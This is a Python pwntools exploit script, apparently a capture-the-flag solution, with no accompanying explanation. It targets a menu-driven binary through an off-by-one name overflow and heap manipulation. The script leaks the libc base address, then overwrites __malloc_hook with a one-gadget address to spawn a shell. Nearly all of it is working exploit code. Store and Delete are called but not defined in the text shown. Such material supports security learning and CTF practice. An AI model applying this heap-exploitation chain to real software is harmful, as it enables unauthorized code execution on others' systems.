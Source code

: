 ```py
def Post(index0,index1):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('which: ')
    p.sendline(str(index0))
    p.recvuntil('who: ')
    p.sendline(str(index1))

def MakeU():
    p.recvuntil('> ')
    p.sendline('17')

def exp():
    p.recvuntil("Frist input your name>")
    p.sendline('a'*0x4f+'\xe1')
    #leak libc
    Store('0\n')
    Store('1\n')
    Store('2\n')
    Store('3\n')
    Store('4\n')
    Store('5\n')

    Post(0,-21)
    MakeU()
    MakeU()

    Delete(1)
    Store('1\n')#1
    Store('6\n')#6 == 2
    #
    Post(2,-21)
    MakeU()
    MakeU()
    Delete(3)
    Store('3\n')#3
    Store('7\n')#7 == 4
    #
    Post(1,-21)
    MakeU()
    MakeU()
    Delete(2)
    Post(6,0)

    p.recvuntil("Send 1 bytes: ")
    libc_base = u64(p.recvuntil('\x7f',drop=False).ljust(8,'\x00')) - 88 - 0x10 - libc.sym['__malloc_hook']
    log.success("libc base => " + hex(libc_base))
    #get shell
    Delete(4)
    Delete(0)
    Delete(7)

    #
    shell_addr = libc_base + gadgets[2]
    libc.address = libc_base
    Store(p64(libc.sym['__malloc_hook']-0x23)+'\n')
    Store('a'*0x13+p64(shell_addr)+'\n')

    Store('a'*0x13+p64(shell_addr)+'\n')

    #gdb.attach(p,'b* 0x555555554000+0x136e')
    Store('a'*0x13+p64(shell_addr)+'\n')
```